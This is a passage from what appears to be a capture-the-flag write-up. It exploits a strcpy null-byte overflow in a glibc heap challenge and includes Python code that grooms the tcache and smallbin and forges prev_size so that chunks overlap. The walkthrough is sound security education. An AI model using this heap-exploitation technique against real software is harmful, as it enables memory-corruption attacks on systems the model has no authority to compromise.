 The function `read_into` reads up to `size` bytes of our input. The stack buffer is zeroed, so we don't have an arbitrary overflow, _but_ because `strcpy` always appends a null byte at the end, we can zero the last byte of the next chunk's `size` field and unset the `PREV_INUSE` bit. We also control the previous qword, so we can set `prev_size`. See [here](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/) for a visual guide to the heap layout.

## Chunk overlap

To exploit the null overflow, we create this heap layout:

![Initial heap](images/heap_1.png)

using the following code:

```python
SIZE_A = 0xf8 # tcache-able, not fastbinnable
SIZE_B = 0x18 # tcache-able

new(SIZE_A, 'A1')
new(SIZE_B, 'B')
new(SIZE_A, 'A2')

# fill tcache for SIZE_A to be able to free it into smallbin
new_range(SIZE_A, 7, 'A_tcache_fill')
del_range(range(3, 10))

delete(0) # smallbin free
delete(1) # tcache

# unset PREV_INUSE in A2 and move backwards over region to clear
# the 0xdadada
for i in range(0, 6):
    new(SIZE_B - i, 'B'*(SIZE_B - i))
    delete(0) # using tcache all along

# set prev_size to reach A1
new(SIZE_B - 6, 'B'*(SIZE_B - 8) + p16(SIZE_A+8 + SIZE_B+8))
```
